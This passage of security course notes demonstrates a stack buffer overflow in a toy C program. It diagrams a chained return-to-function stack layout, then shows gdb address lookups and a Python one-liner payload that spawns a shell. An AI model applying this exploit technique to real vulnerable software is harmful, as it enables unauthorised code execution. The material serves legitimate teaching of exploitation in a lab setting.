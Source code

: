 ``` c
}

void main(int argc, char * argv[]){
  pwn[0]='\0';
  vuln(argv[1]);
}
```

This time we need to first call bin<sub>sh</sub>() with magicbeef being
deadbeef and then we need to call bad() afterwards to get our shell.
This might seem like no problem, at first, but once we try it out,
you'll see where the challenge arises.

Starting with the easy part, we can look at what the stack should be to
properly call bin<sub>sh</sub>:

``` example
|      0xdeadbeef       |
|  bin_sh's ret address |
|     <addr bin_sh>     |
```

We overwrite the return address of vuln() with the address of
bin<sub>sh</sub>() where it's arguments is 0xdeadbeef. Before, in the
last example, we didn't consider the return address of the function we
jumped to, but this time we have to. What is the next function we call?
bad(). So what we really need for the stack is to look like this.

``` example
|     <addr pwn>        |
|      0xdeadbeef       |
|     <addr bad>        |
|     <addr bin_sh>     |
```

If you follow the stack, the argument to bin<sub>sh</sub>() is
0xdeadbeef and its return address is bad(). The argument to bad() is
`pwn`, and the return address for bad is 0xdeadbeef, which doesn't
matter because at this point we have the shell.

Let's give it a try:

``` example
user@si485H-base:demo$ gdb -q call_bad_chain
Reading symbols from call_bad_chain...done.
(gdb) x/x pwn
0x804a060 <pwn>:    0x00000000
(gdb) x/x bad
0x8048505 <bad>:    0x83e58955
(gdb) x/x bin_sh
0x80484ad <bin_sh>: 0x57e58955
(gdb) quit
user@si485H-base:demo$ ./call_bad_chain `python -c "print 'A'*(0x6c+4) + '\xad\x84\x04\x08' +'\x05\x85\x04\x08' +'\xef\xbe\xad\xde' + '\x60\xa0\x04\x08'"`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?ﾭ?`?
pwn: /bin/sh
You've been PWNED!
$ 
```
